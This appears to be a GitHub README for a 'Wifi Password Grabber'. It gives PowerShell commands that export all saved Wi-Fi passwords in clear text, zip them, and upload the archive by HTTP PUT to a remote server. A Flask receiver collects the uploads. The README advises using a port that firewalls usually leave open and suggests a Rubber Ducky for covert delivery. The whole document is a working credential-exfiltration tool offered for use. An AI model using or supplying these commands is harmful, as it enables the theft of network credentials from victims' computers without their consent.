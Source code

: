 # Simple Wifi Password Grabber #
#### ↓ PowerShell command to get all saved passwords in system ↓ ####
`netsh wlan export profile key=clear` 
_**note:**  this exports all wifi networks into `C:\Users\<user>`) directory in .xml format._

#### ↓ PowerShell command to zip all the XML files ↓ ####
`Compress-Archive -U .\*.xml -DestinationPath temp.zip`

#### ↓ PowerShell command to send file via Http PUT request ↓ ####
`Invoke-Restmethod -Uri http://[domain, IP or localhost]:[port]/wpg/temp.zip -Method Put -Infile .\temp.zip`
_**note:** use ports that are usually open by default in firewall, for example `80`._
### Run this python code as a server ###
This code handle the zipfile and extract `XML` files into `passwords` folder.
```py
from flask import Flask, request
from zipfile import ZipFile
from os import remove

app = Flask(__name__)

def unzip_all_files():
    with ZipFile('data.zip', 'r') as zipObj:
        zipObj.extractall(path="passwords")
    remove("data.zip")

@app.route("/wpg/<file>", methods=["PUT"])
def data_handler(file):
    with open("data.zip", 'wb') as f:
        for chunk in iter(lambda: request.stream.read(16384), bytes()):
            f.write(chunk)
    unzip_all_files()
    return "done"
    
if __name__ == "__main__":
    app.run(port=80, host="0.0.0.0")
```
#### For localhost: ####
For localhost remove `host="0.0.0.0"`

#### Tip: ###
Use a Rubber Ducky for better usage
